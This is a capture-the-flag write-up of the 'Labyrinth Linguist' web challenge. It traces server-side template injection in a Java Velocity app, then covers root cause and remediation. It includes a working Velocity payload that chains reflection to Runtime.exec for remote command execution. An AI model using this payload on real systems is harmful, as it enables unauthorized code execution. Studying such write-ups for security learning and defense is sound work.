

# Labyrinth Linguist

## Category: Web | Difficulty: Easy | Approach: White-box

### PART I: Vulnerability

Server-Side Template Injection (CWE-1336) in the `/` endpoint allows an unauthenticated attacker to achieve arbitrary OS command execution, caused by user-supplied input being spliced into the Velocity template source via string replacement before the template is parsed.

---

### PART II: Application Mapping

- The application has only one feature: translating English to Voxalith. (What even is that?)
    
    
    
- Since the input is reflected in the response, I can trigger XSS. However, this does not help me retrieve the flag.
    
    
    

---

### PART III: Source Code Reviewing

- File: `Main.java` :
    
    ```java
    @RequestMapping("/")
    	@ResponseBody
    	String index(@RequestParam(required = false, name = "text") String textString) {
    		if (textString == null) {
    			textString = "Example text";
    		}
    
    		String template = "";
    
            try {
                template = readFileToString("/app/src/main/resources/templates/index.html", textString);
            } catch (IOException e) {
                e.printStackTrace();
            }
    
    		RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
    		StringReader reader = new StringReader(template);
    
    		org.apache.velocity.Template t = new org.apache.velocity.Template();
    		t.setRuntimeServices(runtimeServices);
    		try {
    
    			t.setData(runtimeServices.parse(reader, "home"));
    			t.initDocument();
    			VelocityContext context = new VelocityContext();
    			context.put("name", "World");
    
    			StringWriter writer = new StringWriter();
    			t.merge(context, writer);
    			template = writer.toString();
    
    		} catch (ParseException e) {
    			e.printStackTrace();
    		}
    
    		return template;
    	}
    
    	public static String readFileToString(String filePath, String replacement) throws IOException {
            StringBuilder content = new StringBuilder();
            BufferedReader bufferedReader = null;
    
            try {
                bufferedReader = new BufferedReader(new FileReader(filePath));
                String line;
                
                while ((line = bufferedReader.readLine()) != null) {
                    line = line.replace("TEXT", replacement);
                    content.append(line);
                    content.append("\n");
                }
            } finally {
                if (bufferedReader != null) {
                    try {
                        bufferedReader.close();
                    } catch (IOException e) {
                        e.printStackTrace();
                    }
                }
            }
    
            return content.toString();
        }
    ```
    
- This route first retrieves user-supplied input from the `text` parameter, then passes it to `readFileToString()` and stores the returned content in `template`.
- `readFileToString()` reads the file specified by `filePath`, then replaces every occurrence of `TEXT` in each line with the value of `replacement`.
- Back in the main route, `template` is assigned the result of `readFileToString("/app/src/main/resources/templates/index.html", textString)`, where `textString` contains user-controlled data.
- Since this replacement happens before Velocity parses the template, the user-supplied input becomes part of the template source and is evaluated as template code rather than being treated as data.

---

### PART IV: Exploitation

- Since the template engine is `Velocity`, I check `HackTricks` for a known payload and find this:
    
    ```
    #set($s="")
    #set($stringClass=$s.getClass())
    #set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
    #set($process=$runtime.exec("COMMAND"))
    #set($out=$process.getInputStream())
    #set($null=$process.waitFor() )
    #foreach($i in [1..$out.available()])
    $out.read()
    #end
    ```
    
    - This payload chains Java reflection to reach `Runtime.exec()`:
        - `$s.getClass()` returns the `Class` object representing the String instance's runtime class.
        - `.forName("java.lang.Runtime")` loads the `Runtime` class by its fully qualified name.
        - `.getRuntime()` retrieves the Runtime instance associated with the current JVM.
        - `.exec(COMMAND)` starts a new operating system process.
        - The `#foreach` loop then reads the process's output stream byte by byte, since `InputStream.read()` returns one byte as an integer on each call.
- This payload does not print readable text directly. Instead, `$out.read()` returns each byte as a decimal integer, so the response contains a sequence of numbers rather than the actual output.
    
    
    
- Pasting that sequence of decimal values into an online decimal-to-ASCII converter reveals the actual output.
    
    
    
- From there, I just need to change the command to enumerate the system and locate the flag.
    
    
    

---

### PART V: Impact

- The endpoint requires no authentication and is accessible through a simple HTTP request. Successful exploitation allows an attacker to execute operating system commands in the context of the application process, as demonstrated by retrieving system information and reading the flag.
- **Severity: Critical** - Unauthenticated remote code execution.

---

### PART VI: Root Cause & Remediation

#### Root Cause:

- **Template source built via unsanitized string replacement (CWE-1336)**: `readFileToString()` injects user-controlled input into the raw contents of `index.html` through `line.replace("TEXT", replacement)` before the file is parsed by Velocity. This causes user input to become part of the template source code.
- **Reflection accessible through Velocity’s method resolution**: Velocity's template evaluation allows the attacker-controlled template expression to access Java methods through object references. In this case, the payload uses reflection to reach `java.lang.Runtime` and invoke `Runtime.exec()`, resulting in operating system command execution.

#### Remediation:

- Never assemble template source by concatenating or replacing text with user input. Pass user data as a context variable instead (`context.put("text", textString)`), referenced from a static, trusted template file, so Velocity treats it as data to render, never as template syntax to execute.
- Restrict Velocity's reflection capabilities by configuring an appropriate secure introspector, such as `SecureUberspector`, to prevent templates from accessing dangerous Java functionality. This provides defense-in-depth in case user-influenced template rendering is required elsewhere.
